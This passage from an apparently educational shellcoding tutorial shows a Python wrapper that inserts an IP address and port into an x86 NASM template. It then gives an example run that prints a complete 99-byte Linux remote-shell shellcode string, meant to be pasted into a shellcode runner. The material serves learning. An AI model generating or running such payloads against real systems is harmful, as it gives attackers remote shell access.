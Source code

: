 ```py
        
        replace_code = f"mov ebx, 0x{ip_address_xored_bytes}\n    xor ebx, 0x{xor_dword}\n    push ebx\n    xor ebx, ebx"
```

<figcaption class="figure-caption">The function also checks for `NULL` bytes inside the IP address, `XOR`-ing the values with a random byte in case there are</figcaption>

```py
    else:
        ip_address_hex = "".join([(x).to_bytes(1, "little").hex() for x in ip_address_bytes])
        replace_code = f"push 0x{ip_address_hex}"
    
    template_code = template_code.replace("{{ TEMPLATE_TCP_IP }}", replace_code, 1)
    
    with open(output_file_path, 'w') as f:
        f.write(template_code)
```

When you run the script it shows you the required arguments:

```bash
python3 script.py -h

# usage: wrapper.py [-h] -p [1-65535] -ip IP -t TEMPLATE -o OUTPUT

# optional arguments:
#   -h, --help            show this help message and exit
#   -p [1-65535], --port [1-65535]
#                         TCP Port of the Bind Shell
#   -ip IP, --ip IP       IP address of the Bind Shell
#   -t TEMPLATE, --template TEMPLATE
#                         Path of the NASM template file. Example: -t /tmp/template.nasm
#   -o OUTPUT, --output OUTPUT
#                         Path of the output file. Example: -o /tmp/output.nasm
```

If you pass the required arguments, it finally prints the shellcode which you can copy into a shellcode runner.

Follows an example:

```bash
python3 wrapper.py -p 1234 -ip "127.0.0.1" -t ./template.nasm -o /tmp/output.nasm

# [!] Found NULL byte in IP address
# [+] Object file generated at /tmp/output.nasm
# [+] Executable binary generated at /tmp/output
# [+] Shellcode length: 99 bytes
# [+] Shellcode:
# "\x31\xc0\x89\xc3\x89\xc1\xb0\x66\xb1\x06\x51\xfe\xc3\x53\xb1\x02\x51\x89\xe1\xcd\x80\x89\xc6\xbb\xa0\xdf\xdf\xde\x81\xf3\xdf\xdf\xdf\xdf\x53\x31\xdb\x66\x68\x04\xd2\xb3\x02\x66\x53\x89\xe1\x31\xdb\xb3\x10\x53\x51\x56\x31\xc0\xb0\x66\xb3\x03\x89\xe1\xcd\x80\x89\xd9\x51\xb0\x3f\x89\xf3\x8b\x0c\x24\x49\xcd\x80\x59\xe2\xf2\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\xcd\x80";
```
